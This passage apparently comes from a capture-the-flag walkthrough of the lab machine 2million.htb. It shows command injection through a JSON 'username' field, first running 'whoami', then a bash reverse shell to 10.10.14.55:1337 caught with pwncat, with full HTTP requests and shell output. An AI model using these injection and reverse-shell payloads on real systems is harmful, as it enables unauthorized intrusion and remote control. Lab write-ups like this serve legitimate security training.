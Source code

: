```ruby
{
	"username":"wln5t0n; whoami #"
}
```

#### Response
```ruby
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 16 Jun 2023 16:25:37 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 9

www-data
```

Now lets get the shell by `bash -c  'bash -i >& /dev/tcp/10.10.14.55/1337 0>&1' #`.
#### Request
```ruby
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 74

{
	"username":"wln5t0n; bash -c  'bash -i >& /dev/tcp/10.10.14.55/1337 0>&1' #"
}

```

#### Pwncat
```ruby
^^/H/TwoMillion >>> pwncat -l 1337                                                                                                                        (1) 12:34:46 
bash: cannot set terminal process group (1192): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@2million:~/html$
```
